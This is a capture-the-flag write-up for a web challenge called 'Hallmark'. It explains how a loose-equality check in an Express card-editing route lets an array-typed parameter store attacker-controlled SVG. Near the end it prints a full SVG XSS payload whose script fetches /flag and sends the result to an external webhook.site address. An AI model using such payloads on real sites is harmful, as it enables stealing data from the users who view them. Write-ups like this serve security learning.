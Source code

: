 #Hallmark
Category: web
Requires: xss, javascript knowledge (and some svg knowledge ig)

(wasn't solved during event, this is just my proecdure after reading a few writeups)

Looking through the source code of the server, it does not seem that we are able to directly xss it from just the `POST /flag` 
However there is the `PUT /flag` route for the challenge that allows us to potentially edit a card's content:
```js
app.put('/card', (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]) {
        res.send('bad id');
        return;
    }

    cards[id].type = type == 'image/svg+xml' ? type : 'text/plain';
    cards[id].content = type === 'image/svg+xml' ? IMAGES[svg || 'heart'] : content;

    res.send('ok');

});
```
We also see that we can pass rich objects and arrays into the request since `extended: true`:
```js
app.use(bodyParser.urlencoded({ extended: true }));
```
We want the type to be `image/svg+xml` so that it renders as an svg allowing it to run the `<script></script>` in the svg, but we want to input our own svg. We simply set the `type` to be `["image/svg+xml"]` since:
```js
> ['a'] == 'a'
True
> ['a'] === 'a'
False
```
so we first create a pre-existing card, then we send the following request on https://hoppscotch.io:
Request Body:
| Parameter | Value                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `id`        | `[your id]`                                                                                                                                                                                                                          |
| `type[]`  | `image/svg+xml` - inputs an array into the server                                                                                                                                                                                                                  |
| `content`   | `<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script>fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/63b5be4d-5111-467d-8572-18702c2e7b00?c="+d)</script></svg>` |

its simply an svg:
```xml
<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script></script></svg>
```
with a fetch
```js
fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/blahblah?c="+d)
```
now we submit this to the admin site and in our webhook we see:
`actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`
